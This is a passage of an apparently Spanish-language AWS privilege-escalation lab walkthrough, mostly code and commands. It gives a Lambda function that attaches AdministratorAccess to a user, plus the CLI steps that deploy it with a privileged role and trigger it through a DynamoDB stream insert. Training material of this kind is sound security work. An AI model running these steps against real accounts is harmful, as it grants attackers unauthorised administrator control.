 ```bash
cat privesc16.py  
```

```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response

```
	
comprimir este script a un archivo comprimido llamado function.zip  

```bash
aws lambda create-function --function-name privesc2 --runtime python3.9 --role arn:aws:iam::579852752421:role/Fortress-Lambda --handler privesc16.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc16  

aws lambda create-event-source-mapping --function-name privesc2 --event-source-arn arn:aws:dynamodb:us-east-2:579852752421:table/Tabla_Vulnerable/stream/2024-07-24T20:23:43.053 --enabled --starting-position LATEST --region us-east-2 --profile privesc16  
```

Crear un archivo con el siguiente contenido:  
```bash
cat datos-tabla.json
```

```json
{
  "ID": {
    "S": "cpad-001"
  }
}

```

```bash
aws dynamodb put-item --table-name Tabla_Vulnerable --item file://datos-tabla.json --region us-east-2  

aws dynamodb scan --table-name Tabla_Vulnerable --region us-east-2  

aws iam list-attached-user-policies --user-name privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user  
```
		
## EditExistingLambdaFunctionWithRole  
### Permisos Requeridos: lambda:UpdateFunctionCode  

```bash
aws iam list-attached-user-policies --user-name privesc17-EditExistingLambdaFunctionWithRole-user  
```
